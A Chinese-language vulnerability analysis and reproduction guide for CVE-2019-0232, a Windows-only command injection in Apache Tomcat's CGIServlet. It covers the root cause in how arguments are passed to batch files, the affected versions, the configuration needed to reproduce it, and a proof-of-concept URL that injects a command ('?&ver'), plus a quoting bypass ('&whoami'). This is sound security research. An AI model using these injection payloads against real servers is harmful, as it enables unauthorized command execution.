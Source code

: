 ```yaml
---
title: （CVE-2019-0232）Tomcat rce
id: zhfly3202
---
```


# （CVE-2019-0232）Tomcat rce

## 一、漏洞简介

该漏洞是由于Tomcat CGI将命令行参数传递给Windows程序的方式存在错误，使得CGIServlet被命令注入影响。

该漏洞只影响Windows平台，要求启用了CGIServlet和enableCmdLineArguments参数。但是CGIServlet和enableCmdLineArguments参数默认情况下都不启用。

## 二、漏洞影响

Apache Tomcat 9.0.0.M1 to 9.0.17

Apache Tomcat 8.5.0 to 8.5.39

Apache Tomcat 7.0.0 to 7.0.93

## 三、复现过程

### 漏洞分析

漏洞相关的代码在 `tomcat\java\org\apache\catalina\servlets\CGIServlet.java` 中，CGIServlet提供了一个cgi的调用接口，在启用 `enableCmdLineArguments` 参数时，会根据RFC 3875来从Url参数中生成命令行参数，并把参数传递至Java的 `Runtime` 执行。 这个漏洞是因为 `Runtime.getRuntime().exec` 在Windows中和Linux中底层实现不同导致的。下面以一个简单的case来说明这个问题，在Windows下创建arg.bat：

```
rem arg.bat
echo %* 
```

并执行如下的Java代码

```
String [] cmd={"arg.bat", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

在Windows下会输出 `arg` 和 `dir` 命令运行后的结果。同样的，用类似的脚本在Linux环境下测试：

```
# arg.sh
for key in "$@"
do
    echo '$@' $key
done
String [] cmd={"arg.sh", "arg", "&", "dir"};
Runtime.getRuntime().exec(cmd); 
```

此时的输出为

```
$@ arg
$@ &
$@ dir 
```

导致这种输出的原因是在JDK的实现中 `Runtime.getRuntime().exec` 实际调用了 `ProcessBuilder` ，而后 `ProcessBuilder` 调用 `ProcessImpl`使用系统调用 `vfork` ，把所有参数直接传递至 `execve`。

用 `strace -F -e vfork,execve java Main` 跟踪可以看到上面的Java代码在Linux中调用为

```
execve("arg.sh", ["arg.sh", "arg", "&", "dir"], [/* 23 vars */]) 
```

而如果跟踪类似的PHP代码 `system('a.sh arg & dir');` ，得到的结果为

```
execve("/bin/sh",  ["sh", "-c", "a.sh arg & dir"], [/* 23 vars */]) 
```

所以Java的 `Runtime.getRuntime().exec` 在CGI调用这种情况下很难有命令注入。而Windows中创建进程使用的是 `CreateProcess` ，会将参数合并成字符串，作为 `lpComandLine` 传入 `CreateProcess` 。程序启动后调用 `GetCommandLine` 获取参数，并调用 `CommandLineToArgvW` 传至 argv。在Windows中，当 `CreateProcess` 中的参数为 bat 文件或是 cmd 文件时，会调用 `cmd.exe` , 故最后会变成 `cmd.exe /c "arg.bat & dir"`，而Java的调用过程并没有做任何的转义，所以在Windows下会存在漏洞。

除此之外，Windows在处理参数方面还有一个特性，如果这里只加上简单的转义还是可能被绕过， 例如 `dir "\"&whoami"` 在Linux中是安全的，而在Windows会执行命令。

这是因为Windows在处理命令行参数时，会将 `"` 中的内容拷贝为下一个参数，直到命令行结束或者遇到下一个 `"` ，但是对 `\"` 的处理有误。同样用 `arg.bat` 做测试，可以发现这里只输出了 `\` 。因此在Java中调用批处理或者cmd文件时，需要做合适的参数检查才能避免漏洞出现。

### 漏洞复现

笔者使用的复现环境为9.0.12 + JRE 1.8.0。

首先进行CGI相关的配置，在 `conf/web.xml` 中启用CGIServlet：

```
<servlet>
    <servlet-name>cgi</servlet-name>
    <servlet-class>org.apache.catalina.servlets.CGIServlet</servlet-class>
    <init-param>
      <param-name>cgiPathPrefix</param-name>
      <param-value>WEB-INF/cgi-bin</param-value>
    </init-param>
    <init-param>
      <param-name>enableCmdLineArguments</param-name>
      <param-value>true</param-value>
    </init-param>
    <init-param>
      <param-name>executable</param-name>
      <param-value></param-value>
    </init-param>
    <load-on-startup>5</load-on-startup>
</servlet> 
```

这里主要的设置是 `enableCmdLineArguments` 和 `executable` 两个选项。 `enableCmdLineArguments` 启用后才会将Url中的参数传递到命令行， `executable` 指定了执行的二进制文件，默认是 `perl`，需要置为空才会执行文件本身。

同样在 `conf/web.xml` 中启用cgi的servlet-mapping

```
<servlet-mapping>
    <servlet-name>cgi</servlet-name>
    <url-pattern>/cgi-bin/*</url-pattern>
</servlet-mapping> 
```

之后修改 `conf/context.xml` 的 `` 添加 `privileged="true"`属性，否则会没有权限

```
<Context privileged="true">

```
&lt;WatchedResource&gt;WEB-INF/web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;WEB-INF/tomcat-web.xml&lt;/WatchedResource&gt;
&lt;WatchedResource&gt;${catalina.base}/conf/web.xml&lt;/WatchedResource&gt; 
``` `</Context>` 
```

然后在 `ROOT\WEB-INF` 下创建 `cgi-bin` 目录, 并在该目录下创建一个内容为 `echo Content-type: text/html` 的 `e.bat` 文件。

配置完成后，启动tomcat，访问 `http://0-sec.org:8080/cgi-bin/e.bat?&ver` ，可以看到命令执行成功。

## 参考链接

> https://xz.aliyun.com/t/4875